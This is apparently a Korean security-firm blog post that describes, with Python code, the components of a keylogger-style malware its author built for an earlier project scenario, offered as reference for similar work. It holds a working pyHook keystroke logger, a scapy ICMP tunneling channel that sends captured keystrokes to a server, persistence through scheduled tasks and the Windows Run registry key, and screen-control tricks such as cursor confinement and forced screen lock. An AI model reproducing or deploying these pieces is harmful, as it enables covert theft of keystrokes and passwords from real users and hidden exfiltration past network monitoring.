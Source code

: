 ```yaml
---
layout: post
title: "Keylogger and Other Functions"
author: "Gurumi"
comments: true
tags: [programming, etc]
---
```


라온화이트햇 핵심연구팀 조운삼

## I. Intro

---

지난 프로젝트 투입 때, 수행한 시나리오에서 사용된 Keylogger 형태의 악성코드를 제작&배포 했을 때 사용한 기능들에 대해 정리해봤습니다.  추후 유사한 내용의 프로젝트 혹은 개발시 참고하면 감사하겠습니다. (개발에 사용한 언어는 Python입니다.)

## II. Functions

---

### II-01 .Keylogger

주요 기능중 하나인 Keylogger 기능은 pyHook을 이용하여 구현하였습니다. 

```python
import pyHook

hm=pyHook.HookManager()
hm.KeyDown=OnKeyboardEvent
hm.KeyUp=OnKeyboardEvent
```

보통은 `KeyDown`을 이용하여 입력 키를 파악하는 것이 일반적이지만 Shift 키를 이용한 특수문자 입력 혹은 Ctrl, Alt 키를 이용한 기타 키보드 이벤트를 구분하기 위해 `KeyDown`, `KeyUp`을 이용하여 키보드 이벤트를 구분하였습니다.

```python
def keyboardEventDebug(event):
    print('========================================\n')
    print('MessageName: {}'.format(event.MessageName))
    print('Message: {}'.format(event.Message))
    print('Time: {}'.format(event.Time))
    print('Window: {}'.format(event.Window))
    print('WindowName: {}'.format(event.WindowName))
    print('Ascii: {}'.format(event.Ascii))
    print('Key: {}'.format(event.Key))
    print('KeyID: {}'.format(event.KeyID))
    print('ScanCode: {}'.format(event.ScanCode))
    print('Extended: {}'.format(event.Extended))
    print('Injected: {}'.format(event.Injected))
    print('Alt: {}'.format(event.Alt))
    print('Transition: {}'.format(event.Transition))
    print('========================================\n')
```

pyHook에서 이벤트 발생시 이벤트 객체에 포함되어 있는 구성 요소들입니다. `event.Message`를 통해 KeyDown(256), KeyUp(257)을 구분할 수 있습니다.

`event.Ascii` 혹은 `event.KeyID`를 사용해 입력된 키를 구별할 수 있습니다.( `event.KeyID`를 사용할 경우 좀 더 다양한 키 이벤트를 구별 할 수 있지만, KeyID에 대해 사전에 파악해야 합니다.)

```python
def OnKeyboardEvent(event):
    global lst

    if event.Key=='Scroll':
        os._exit(0)

    # capture the keystrokes
    if event.KeyID !=0:
        keylogs=''
        if event.KeyID==160 and event.Message==256:
            keylogs='[L_Shift Down]'
        elif event.KeyID==160 and event.Message==257:
            keylogs='[L_Shift UP]'
        elif event.KeyID==161 and event.Message==256:
            keylogs='[R_Shift Down]'
        elif event.KeyID==161 and event.Message==257:
            keylogs='[R_Shift UP]'
        elif event.KeyID==162 and event.Message==256:
            keylogs='[L_Control Down]'
        elif event.KeyID==162 and event.Message==257:
            keylogs='[L_Control UP]'
        else:
            if event.Message == 256:
                if event.KeyID==8:
                    keylogs='[Backspace]'
                elif event.KeyID==9:
                    keylogs='[Tab]'
                elif event.KeyID==13:
                    keylogs='[Enter]'
                elif event.KeyID==20:
                    keylogs='[Caps Lock]'
                elif event.KeyID==21:
                    keylogs='[Hangul]'
                elif event.KeyID==32:
                    keylogs='[Space]'
                elif event.KeyID==127:
                    keylogs='[Delete]'
                elif event.KeyID==186:
                    keylogs=';'
                elif event.KeyID==187:
                    keylogs='+'
                elif event.KeyID==188:
                    keylogs=','
                elif event.KeyID==189:
                    keylogs='-'
                elif event.KeyID==190:
                    keylogs='.'
                elif event.KeyID==191:
                    keylogs='/'
                elif event.KeyID==192:
                    keylogs='`'
                elif event.KeyID==219:
                    keylogs='['
                elif event.KeyID==220:
                    keylogs='\\'
                elif event.KeyID==221:
                    keylogs=']'
                elif event.KeyID==222:
                    keylogs='\''
                else:
                    keylogs=event.Key
        if keylogs != '':
            lst.append(keylogs)
    
    return True
```

해당 Keylogger는 키 로그를 `lst`에 저장해 놓도록 되어 있고, 공백류 문자(Enter, Tab, Space)가 입력될 경우 로그를 전송하도록 구현되어 있으며 알파벳과 숫자를 제외한 문자들에 대해 좀 더 직관적으로 파악하기 위해 `KeyID`를 사용해 구분하고 별도의 문자열로 구분했습니다.

### II-02 ICMP Tunneling

```python
# ICMP Tunneling Client
from scapy.all import *

def sendICMP(msg):
    ip = IP(dst='Server IP')/ICMP()/msg.encode('base64').strip()
    send(ip)

# ICMP Tunneling Server
def sniffICMP():
    while True:
				rx = sniff(filter="icmp", count=1)
        return rx[0][Raw].load.decode('base64')
```

로그를 전송하는 부분에서 `scapy`모듈을 사용하여 ICMP Tunneling Server, Client를 구현하였습니다.

base64로 인코딩하여 전송하는 것은 시나리오 수행상 필요한 부분이므로 제거해도 무관합니다.

### II-03 ClipCursor

[ClipCursor function (winuser.h) - Win32 apps](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-clipcursor)

```python
import win32api

def moveCursor():
	win32api.ClipCursor((upper-left x-coordinate, upper-left y-coordinate, lower-right x-coordinate, lower-right y-coordinate))
```

해당 기능은 Windows에서 클라이언트의 마우스 커서의 행동 영역을 제한하는 기능입니다. `ClipCursor`의 인자로 빈 값이나 (0,0,0,0)을 넣을 경우 행동 영역 제한이 해제됩니다.

### II-04 Schedule

[schtasks](https://docs.microsoft.com/ko-kr/windows-server/administration/windows-commands/schtasks)

![/assets/2020-07-01/sam0700.png](/assets/2020-07-01/sam0700.png)

```bash
2020/07/03 14:30에 "Task Command"를 한 번 실행시키는 작업을 "Task Name"이라는 이름으로 작업 스케줄 등록
ex) SCHTASKS /create /sc ONCE /SD 2020/07/03 /ST 14:30 /TN "Task Name" /TR "Task Command"

/create 작업 스케줄 생성
/delete 작업 스케줄 삭제
ex) SCHTASKS /delete /Tn "My Task"
/run 등록된 작업 스케줄 (원격/로컬)실행
ex) SCHTASKS /run /Tn "My Task"
/end 작업 스케줄에 의해 실행된 프로그램 (원격/로컬)중지

/sc MINUTE|HOURLY|DAILY|WEEKLY|MONTHLY 매분|시간|일|주|달 마다 실행
/sc ONCE 지정된 날짜 및 시간에 한 번 실행
/sc ONSTART 시스템 시작시 실행
```

Windows에서 제공하는 작업 스케줄러 등록하는 기능입니다. 시나리오 수행에 특정 날짜와 시간대에 동작하도록 하는 기능이 요구되어 구현했습니다.

***시작 프로그램**

```python
from _winreg import *

keyVal = r'Software\Microsoft\Windows\CurrentVersion\Run'
key2change = OpenKey(HKEY_CURRENT_USER, keyVal, 0, KEY_ALL_ACCESS)
SetValueEx(key2change, 'MY Execution', 0, REG_SZ, path)
```

작업 스케줄러에 작업 등록과 별개로 "시작 프로그램"에 프로그램 실행을 등록시킬 경우 레지스트리에 등록하면 됩니다.

### II-04 ETC

**Screen Lock**

```bash
# 사용자의 화면을 잠금화면으로 전환
rundll32.exe user32.dll, LockWorkStation
```

O**pen Image**

```bash
#전체화면으로 open
start "" /max "imagePath"
```

**Change Wallpaper**

```python
# 지정된 경로의 이미지로 시스템 배경화면 변경
import ctypes
SPI_SETDESKWALLPAPER = 20 
ctypes.windll.user32.SystemParametersInfoA(SPI_SETDESKWALLPAPER, 0, image_Path , 0)
```

3개 기능 모두 Windows 화면제어에 관한 기능을 수행합니다.
